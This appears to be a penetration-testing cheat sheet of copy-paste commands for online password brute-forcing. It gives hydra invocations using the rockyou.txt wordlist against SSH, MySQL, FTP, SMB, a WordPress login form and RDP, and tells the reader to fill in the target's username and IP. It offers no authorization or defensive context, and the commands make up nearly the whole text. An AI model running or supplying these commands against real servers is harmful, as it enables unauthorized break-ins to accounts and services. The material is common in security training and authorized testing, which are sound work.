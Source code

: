 # Brute Force: Passwords Cracking
- If any server is running, you can use hydra to crack passwords. 
- Make sure the rockyou.txt file exists on the location and that you have right username and ip (replace them)

- cracking ssh
  - `hydra -l user -P /usr/share/wordlists/rockyou.txt $IP ssh`

- crack mysql database server
  - `hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP mysql`

- crack ftp server
  - `hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP ftp`

- crack smb server
  - `hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP smb`

- crack wordpress
  - `hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

- crack rdp (windows screen sharing)
  - `hydra -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$IP`
